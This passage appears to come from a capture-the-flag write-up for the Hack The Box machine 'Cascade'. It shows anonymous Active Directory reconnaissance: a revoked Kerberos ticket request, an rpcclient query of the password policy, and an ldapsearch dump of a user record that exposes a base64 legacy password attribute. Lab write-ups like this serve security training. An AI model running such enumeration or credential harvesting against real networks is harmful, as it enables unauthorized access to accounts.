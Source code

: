 ```
[*] Getting TGT for i.croft
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

Hmm. No easy path in. Don't worry, let's check the domain password policy.

```
# rpcclient -U% -c getdompwinfo 10.10.10.182
min_password_length: 5
password_properties: 0x00000000
```

OK. Looks like we have a simple password policy. What else can we find?

### Lightweight Directory Access Protocol (LDAP) Enumeration

Truth be told, one can actually use the Lightweight Directory Access Protocol (LDAP) to talk to Active Directory. Let's see what can we glean with `ldapsearch`.

```
# ldapsearch -h 10.10.10.182 -x -b "dc=cascade,dc=local"
...
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132299650192994271
lastLogoff: 0
lastLogon: 132299662254155455
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
```

[1]: https://www.hackthebox.eu/home/machines/profile/235
[2]: https://www.hackthebox.eu/home/users/profile/158833
[3]: https://www.hackthebox.eu/